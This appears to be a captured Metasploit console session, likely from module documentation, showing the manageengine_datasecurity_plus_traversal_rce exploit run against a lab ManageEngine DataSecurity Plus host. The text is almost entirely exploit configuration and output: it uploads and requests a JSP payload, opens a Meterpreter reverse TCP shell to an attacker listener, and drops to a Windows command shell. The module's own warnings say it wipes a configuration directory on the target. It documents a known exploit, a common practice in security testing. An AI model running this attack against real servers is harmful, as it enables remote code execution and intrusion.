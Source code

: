 ```


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   DataSecurity Plus

msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > run
[*] Exploit running as background job 4.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > 
[+] Successfully authenticated to the Xnode server
[*] Obtained Xnode installation path: 'C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode'.
[+] The target appears to be vulnerable. Target is running Xnode version: XNODE_1_0_0
[*] Using URL: http://192.168.1.128:8080/UdYqreK
[*] Server started.
[*] Obtained expected Xnode "de_healh" status: "GREEN".

[!] This exploit will wipe the contents in the <datasecurity_install_dir>\apps\dataengine-xnode\conf\datarepository\schema directory.
[!] If that directory remains empty, Xnode will stop working and it will not be possible to reboot DataSecurity Plus.
[!] This module will try to repopulate the directory with the default JSON files, but that may impact functionality for a non-default configuration.
[*] Requesting JSP payload: http://192.168.1.225:8800/swkncbljpmmw.jsp
[+] Successfully requested JSP payload
[*] 192.168.1.225   manageengine_datasecurity_plus_traversal_rce - Delivering Payload (3675 bytes)
[*] Sending stage (200774 bytes) to 192.168.1.225
[+] We got a session! Please be patient while cleanpup is performed. This may take a while.
[*] Server stopped.
[+] Successfully removed the JSP payload from C:\Program Files (x86)\ManageEngine\DataSecurity Plus\webapps\fap\swkncbljpmmw.jsp.
[*] Attempting to repopulate apps\dataengine-xnode\conf\datarepository\schema with the default JSON files.
[+] Successfully uploaded the default Xnode datarepostiory schema files.
[*] Meterpreter session 5 opened (192.168.1.128:4444 -> 192.168.1.225:40192) at 2022-06-10 12:46:40 -0400

msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > sessions 5
[*] Starting interaction with 5...

meterpreter > shell
Process 2160 created.
Channel 29 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\ManageEngine\DataSecurity Plus\bin>whoami
whoami
```